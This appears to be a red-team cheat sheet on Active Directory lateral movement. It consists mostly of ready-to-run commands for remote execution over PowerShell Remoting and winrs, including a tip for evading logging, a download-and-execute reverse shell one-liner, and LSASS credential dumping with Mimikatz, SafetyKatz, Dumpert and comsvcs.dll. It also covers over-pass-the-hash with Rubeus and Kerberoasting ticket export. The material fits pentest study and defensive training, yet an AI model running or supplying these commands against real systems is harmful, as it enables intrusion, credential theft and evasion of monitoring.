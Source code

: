 # AD - Lateral Movement / Connections

## **Basics**

**PowerShell Remoting**

* Its like psexec on steroids
* Enabled by default on Server 2012 and newer
* May need to enable remoting Enable-PSRemoting (admin privs required) e.g Win10
* You get an elevated shell if admin creds are use - so a lot of UAC Issues are not relevant
* Port 5985/5986 (SSL Encrypted) - is used (based on WinRM)
* One-To-One or One-To-Many (non-interactive, executes parallely)&#x20;
* Credentials are not left on target unless CredSSP/Unconstraned Delegation?
* Runs in process "wsmprovhost" and is stateful

## **Connections / WinrRS**

**Windows Remote Management (cmd.exe)**\
winrs -r:hostname cmd

## **Connections / PowerShellRemoting**

**Access C disk of a computer (check local admin)**\
ls \\\\\[hostname]\c$

**Connect to machine with administrator privs**

```powershell
Enter-PSSession -Computername

Use winrs of PSRemoting to evade the logging
winrs -r:hostname cmd
winrs -r:hostname -u:server\usernmae -p:password-of-user command-to-run

Other Remoting
Use winrm.vbs and/or COM objects of WSMan object https://github.com/bohops/WSMan-WinRM 
```

****\
**1-1 Save and use sessions of a machine**

```powershell
$sess = New-PSSession -Computername hostname.local
$sess = New-PSSession -Computername hostname.local -credential
Enter-PSSession $sess

No local file be included in Enter-PSSession/New-PSSession
```

**1-n Execute commands on a machine(s) (non-interactive)**

{% code overflow="wrap" %}
```powershell
Invoke-Command -Computername hostname -Scriptblock {whoami;hostname}
❗Invoke-Command -Scriptblock {hostname;whoami} -Computername (Get-Content ad_computers.txt)
Invoke-Command -Computername hostname -Scriptblock {$executioncontext.sessionstate.languagemode}
Invoke-Command -Scriptblock {whoami} -Computername (Get-Content <list-of-servers-file>) 
```
{% endcode %}

**1-n Execute script on a machine**

{% code overflow="wrap" %}
```powershell
Invoke-Command -FilePath  C:\scripty\a.ps1 -Computername (Get-Content <list-of-servers-file>) 
❗Invoke-Command -FilePath C:\scripty\a.ps1 -Session $sess
   Enter-PSSession -Session $sess
   functionname_in_a.ps1
```
{% endcode %}



**1-n Execute locally loaded function on a list of remote machines**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Invoke-Command -Scriptblock ${function:test} -Computername (Get-Content &#x3C;list_of_servers>)

<strong>❗Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content &#x3C;list_of_servers>)
</strong>A file/function test.ps1 is creatd and . .\test.ps1 With the content
function test
{
 Write-Output "Test" 
}
</code></pre>

then run "test"  => Then we can run Invoke-Command -Scriptblock ${function:test} -Computername a\_host

**1-n Execute locally loaded function on a list of remote machines & passing arguemnts (only positional arguments could be passed)**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Invoke-Command -ScriptBlock ${fucntion:GetPassHashes} -Hostname a_host -ArgumentList

<strong>Use "Stateful" command using Invoke-Command:
</strong>$sess = New-PSSession -computername host1
Invoke-Command -session $sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -session $sess -ScriptBlock {$Proc.Name}
</code></pre>

**1-1 Copy script to other server**

```powershell
Copy-Item .\Invoke-MimikatzEx.ps1 \\hostname\c$\'Program Files'
```

**1-1 Powershell reverse shell**

{% code overflow="wrap" %}
```powershell
powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000
```
{% endcode %}

## Extracint Credentials from LSASS

<pre class="language-powershell"><code class="lang-powershell">**Mimikatz**
Invoke-Mimikatz -command '"sekurlsa::ekeys"'

**SafetyKatz** minidump oflsass and PELoader to run Mimikatz
safetykatz.exe "sekurlsa::ekeys"    
<strong>
</strong><strong>**SharpKatz** - C# port of some Mimikatz functionalitities
</strong>sharpkatz.exe --command ekeys

**Dumpert** (Direct System Calls and API unhookking)
rundll32.exe C:\Dumpert\Outflank-dumpert.dll,Dump

**PyPyKatz*
pypykatz.exe live lsa

**comsvcs.dll**
tasklist /FI "IMAGENAME eq lsass.exe"
runddl32.exe C:\windows\system32\comsvcs.dll, MiniDump &#x3C;lsass pid> C:\Users\Public\lsass.dmp full

**From Linux**
Impacket
Physmem2profit
</code></pre>

## 🐱 Mimikatz - Invoke-Mimikatz

* Dump credentials, tickets, passing & replaying hashes
* Using the code from ReflectivePEInjection mimikatz is loaded reflectively into memory.
* Administrative Privilege is needed for reading/writing to lsass e.g. dumping creds

**Dump credentials on local/remote machine**

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -command '"sekurlsa::ekeys"'

Invoke-Mimikatz -DumpCreds   //default parameter
❗Invoke-Mimikatz -DumpCreds -Computername @("host1","host2")    //uses PowerShell remoting cmdlet Invoke-Command (need local admin privs on remote host)
```
{% endcode %}

**Write to lsass / "over pass the hash" - generate tokens from hashes (we have the hash for the User specified)**

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -command '"sekurlsa::pth /user:Administrator /domain:dom.local /ntlm:<ntlmhash> /run:powershell.exe"'
```
{% endcode %}

Creates a valid kerberos ticket using the ntlm hash of a user. Authenticate to Kerberos enabled Services afterfwards.



**Extracting credentials from credentials vault / scheduled tasks**

```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```





## **🍳Kerberoasting**

### **Description**

### **Attack commands**

**See existing tickets**\
klist

**Remove all tickets**\
****klist purge

**Request a kerberos service ticket for a specific SPN - output Hashcat format**\
****Powerview - Request-SPNTicket -SPN "name/target.domain.local" \[-OutputFormat JTR]

**Manually**\
Add-Type -AssemblyName System.IdentityModel

{% code overflow="wrap" %}
```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "name/target.domain.local"
```
{% endcode %}

**Dump the ticket**

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
=> Now Crack
```
{% endcode %}



## ⏩Over-Pass the Hash

### Description



### Attack commands

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Needs Admin rights:
Invoke-Mimikatz '"sekurlsa::pth /user:Administrator /domain:target.domain.local &#x3C; /ntlm:hash | /aes256:hash> /run:powershell.exe"'

Safetykatz.exe "sekurlsa::pth /user:administrator /domain:dom.local /aes256:hash /run:powershell.exe" "exit"

=> Generates powershell session with logon type type 9 same as runas /netonly
<strong>
</strong><strong>-------------
</strong>No Admin rights needed
<strong>Rubeus.exe asktgt /user:USER &#x3C;/rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/opsec] /ptt
</strong><strong>
</strong><strong>Needs admin rights:
</strong><strong>Rubeus.exe asktgt /user:administrator /aes256:hash /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
</strong></code></pre>
